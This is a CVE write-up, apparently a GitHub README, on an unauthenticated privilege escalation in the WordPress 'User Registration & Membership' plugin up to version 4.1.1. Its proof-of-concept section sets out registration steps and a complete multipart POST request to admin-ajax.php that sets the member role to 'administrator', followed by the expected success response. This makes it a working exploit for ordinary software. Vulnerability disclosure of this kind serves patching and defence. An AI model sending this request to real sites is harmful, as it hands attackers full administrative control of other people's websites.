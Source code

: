 # CVE-2025-2563
###### User Registration & Membership <= 4.1.1 - Unauthenticated Privilege Escalation

### Disclaimer!
The information presented in this CVE (Common Vulnerabilities and Exposures) writeup is for educational and informational purposes only. The details provided are based on publicly available resources, research, and analysis conducted by the author. The content is not intended to promote or encourage any illegal activities, including hacking, exploitation, or unauthorized access to systems.

The author does not assume any responsibility for any misuse of the information presented. It is recommended that individuals and organizations apply this knowledge responsibly and in compliance with applicable laws and regulations. Readers are strongly advised to test vulnerabilities only in controlled environments with proper authorization.

The author and contributors of this writeup do not endorse or support malicious activities and encourage responsible disclosure and ethical hacking practices.

---

### Description
A critical security vulnerability has been discovered in the “User Registration & Membership” WordPress plugin, a popular tool for creating membership websites and registration forms. The flaw, identified as CVE-2025-2563, carries a CVSS score of 9.8, indicating its high severity.

The User Registration & Membership plugin for WordPress is vulnerable to privilege escalation in versions up to, and including, 4.1.1. This is due to insufficient restrictions on role type in the 'prepare_members_data()' function. This makes it possible for unauthenticated attackers to create new user accounts with the 'administrator'' role, with this conditions:
1. **The plugin has activated membership add-on**
2. **Registered user is no need confirmation**

---

### PoC (Proof Of Concept)

1. Register via frontend page at /registration or /membership-registration
2. After registered, use this request data.
    ```text
    POST /wp-admin/admin-ajax.php HTTP/1.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
    Accept: */*
    Host: hackthebox.test
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Content-Type: multipart/form-data; boundary=--------------------------189123966817005614765335
    
    ----------------------------189123966817005614765335
    Content-Disposition: form-data; name="action"
    
    user_registration_membership_register_member
    ----------------------------189123966817005614765335
    Content-Disposition: form-data; name="security"
    
    THE_NONCE_HERE
    ----------------------------189123966817005614765335
    Content-Disposition: form-data; name="members_data"
    
    {"membership":"MEMBERSHIP_ID","payment_method":"free","start_date":"2025-3-29","username":"REGISTERED_USERNAME","role":"administrator"}
    ----------------------------189123966817005614765335--
   ```
3. The response must be like this  
    ```json
    {
        "success": true,
        "data": {
            "member_id": 24,
            "transaction_id": "",
            "message": "New member has been successfully created."
        }
    }  
    ```
4. Now you can log-in the registered account with administrator privilege.

---

### Reference
> 1. https://plugins.trac.wordpress.org/browser/user-registration/tags/4.1.2/modules/membership/includes/Admin/Services/MembersService.php?rev=3259656#L106
> 2. https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/user-registration/user-registration-membership-411-unauthenticated-privilege-escalation
> 3. https://securityonline.info/wordpress-plugin-cve-2025-2563-scores-9-8-threatens-thousands-of-membership-sites/

---

### Thank you

- https://saweria.co/ubaii
- https://buymeacoffee.com/ubaii
- https://trakteer.id/ubaii
